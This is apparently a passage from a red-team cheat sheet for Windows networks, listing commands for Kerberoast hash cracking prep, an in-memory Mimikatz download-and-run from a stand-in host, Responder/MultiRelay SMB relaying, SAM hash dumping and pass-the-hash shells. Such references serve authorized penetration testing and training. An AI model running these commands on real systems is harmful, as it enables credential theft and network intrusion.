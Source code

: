 The format for the hashes is not ideal for cracking. To ensure it is formatted correctly for tools like hashcat, copy and paste the hash into a file (i.e. raw-kerberoast-hash) and run the following command: 
```
'cat raw-kerberoast-hash | tr -d ' \r\n’ > kerberoast-hash'.
```
### mimikatz

The Invoke-Mimikatz.ps1 script (located in 'root/Tools/PowerSploit/Exfiltration’) can be used to dump cleartext credentials on a target. To dump credentials on your target, run the following command: 'powershell -nop -ep bypass “IEX (New-Object Net.WebClient).DownloadString('http://<ip address of machine hosting the ps1 file>/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds'. If successful, you will see cleartext passwords associated with usernames.

### Responder
Machines that don’t require SMB signing are vulnerable to SMB relaying.
```
responder -v -I eth0
```
### MultiRelay

Run from the "usr/share/responder/tools" directory: 
```
./MultiRelay.py -t 10.10.10.10 -u “Jane Doe"
```
Use the Available Commands after connection for interation options.
```
Available commands
```

### samdump2

If you are able to obtain SAM and System dumps (i.e. via smbclient or another method of access), a tool called samdump2 can be helpful in extracting hashes. Assuming your dumps are sam.dmp and sys.dmp, run the following command: 
```
samdump2 -o hash.dmp sys.dmp sam.dmp
```
Print the hash.dmp file when the function is complete to see the output.
### pth-winexe
Pass the Hash of a user and open a cmd shell. 
```
pth-winexe -u administrator%"hash"//"target ip" cmd.exe
```
# Exploitation/Privilege Escalation
### PowerSploit
The "PowerUp.ps1" script (located in "root/Tools/Powersploit/Privesc") can be used to automate the process of identifying Windows misconfigurations which are potential privilege escalation vectors. Additional research can be done to understand how to leverage the discovered misconfigurations, as methods may vary.
[ReadTeam_CheatSheet](https://gist.github.com/jivoi/c354eaaf3019352ce32522f916c03d70)

